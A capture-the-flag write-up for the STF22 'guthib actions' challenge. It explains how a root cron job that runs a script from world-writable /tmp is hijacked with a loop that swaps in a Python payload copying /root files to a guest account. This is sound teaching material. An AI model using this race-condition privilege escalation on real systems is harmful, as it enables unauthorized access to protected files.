

# guthib actions - STF22 Miscellaneous Challenge

Here is the challenge task:



Files: 
[`Dockerfile`](guthib_actions/Dockerfile),
[`start.sh`](guthib_actions/start.sh),
[`build.sh`](guthib_actions/build.sh),
[`build.py`](guthib_actions/build.py)

## Overview

For this challenge, the source code of the challenge is provided.

From the provided [`Dockerfile`](guthib_actions/Dockerfile), we observe
that a guest account was added with both usernames and password as 
`guest`. Additionally, the `PasswordAuthentication yes` set in the
sshd configurations allows remote users to authenticate via password.

```docker
RUN useradd -m -c 'Restricted guest account' guest && \
    echo 'guest:guest' | chpasswd

RUN echo "PasswordAuthentication yes" >> /etc/ssh/sshd_config
```

A cron job is added - the `/root/build.sh` file is scheduled to be ran
every minute. The permissions for the `/root` directory is changed
such that the guest account is unable to read or execute any files within.
Also note that `flag.py` which likely contains the flag is copied into
`/root`.

```docker
RUN (crontab -l ; echo "* * * * * /root/build.sh") | crontab
# omitted
COPY ./flag.py /root/flag.py
# omitted
RUN chown -R guest /home/guest && \
    chmod -R 700 /root && \
    chmod -R 777 /home/guest
```

Inspecting the schedule `build.sh`:

```sh
#!/bin/bash
cd /tmp  # dump all the temp files Pyinstaller may generate in the temp dir
cp /root/build.py build.py
python3 build.py >/dev/null 2>&1  # build flag printing binary
rm -r *
```

The script copies `build.py` into `/tmp` and executes it inside, then
removes every file in `/tmp`. The python script being executed simply
creates an executable for the `/root/flag.py` file.

## Solution

First, we SSH into the remote server using the username and password that
was found earlier: `guest:guest`.

Since the scheduled `build.sh` executes `/tmp/build.py` and we have
write permissions for `/tmp`, we can simply replace the python script
during the execution of the cron job and have our own script to be
executed instead.

From there we noted that guest has write permissions for `/tmp`, however,
there is no available text editor i.e. vi, nano, etc. To circumvent this, 
one can use `scp` to transfer files into the remote server instead.

```sh 
$ scp -P 30921 <file> guest@157.245.52.169:~
```

To hijack the cron job's python script execution, we need a script to
overwrite `build.py` at a sufficiently fast rate. For that, we created
a [`spam.sh`](spam.sh) which does the replacing in a while loop.

```sh
#!/bin/bash

while true
do
    cp spam.py /tmp/build.py
done
```

The resulting `build.py` being executed is to copy all the files inside
the `/root` directory into the guest's home directory and allow the 
guest account to read, write and execute the files.

```py
import os

os.system('cp /root/* /home/guest')
os.system('chmod -R 777 /home/guest')
```

With that, simply run the `spam.sh` script, wait for a minute and we
have our flag.

```sh
$ ./spam.sh
^C
$ ls
build.py  build.sh  flag.py  spam.py  spam.sh  start.sh
$ cat flag.py
print('STF22{5up3r_5U5_5y5t3m_m0du13!_a0d66b3e608fe2b38ddf77d679fbde6b74e231f54c469a081f04dc65004360f8}')$ 
```